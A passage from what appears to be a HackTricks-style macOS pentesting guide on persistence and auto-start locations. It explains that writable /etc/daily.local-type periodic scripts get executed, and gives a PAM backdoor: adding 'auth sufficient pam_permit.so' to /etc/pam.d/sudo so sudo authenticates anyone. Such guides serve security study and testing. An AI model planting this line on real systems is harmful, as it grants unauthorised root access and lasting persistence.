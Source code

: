 There are other periodic scripts that will be executed indicated in **`/etc/defaults/periodic.conf`**:

```bash
grep "Local scripts" /etc/defaults/periodic.conf
daily_local="/etc/daily.local"				# Local scripts
weekly_local="/etc/weekly.local"			# Local scripts
monthly_local="/etc/monthly.local"			# Local scripts
```

If you manage to write any of the files `/etc/daily.local`, `/etc/weekly.local` or `/etc/monthly.local` it will be **executed sooner or later**.

{% hint style="warning" %}
Note that the periodic script will be **executed as the owner of the script**. So if a regular user owns the script, it will be executed as that user (this might prevent privilege escalation attacks).
{% endhint %}

### PAM

Writeup: [Linux Hacktricks PAM](../linux-hardening/linux-post-exploitation/pam-pluggable-authentication-modules.md)\
Writeup: [https://theevilbit.github.io/beyond/beyond\_0005/](https://theevilbit.github.io/beyond/beyond\_0005/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* Root always required

#### Description & Exploitation

As PAM is more focused in **persistence** and malware that on easy execution inside macOS, this blog won't give a detailed explanation, **read the writeups to understand this technique better**.

Check PAM modules with:

```bash
ls -l /etc/pam.d
```

A persistence/privilege escalation technique abusing PAM is as easy as modifying the module /etc/pam.d/sudo adding at the beginning the line:

```bash
auth       sufficient     pam_permit.so
```

So it will **looks like** something like this:

```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```
